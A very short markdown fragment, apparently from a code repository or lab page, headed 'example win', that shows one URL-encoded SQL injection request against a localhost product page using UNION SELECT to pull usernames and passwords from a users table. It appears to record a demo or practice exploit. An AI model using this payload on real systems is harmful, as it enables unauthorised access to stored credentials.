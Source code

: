 ## example win
```
http://localhost/product?id=3%20union%20all%20select%20uname%20as%20name,%20passw%20as%20ppm%20from%20users
```
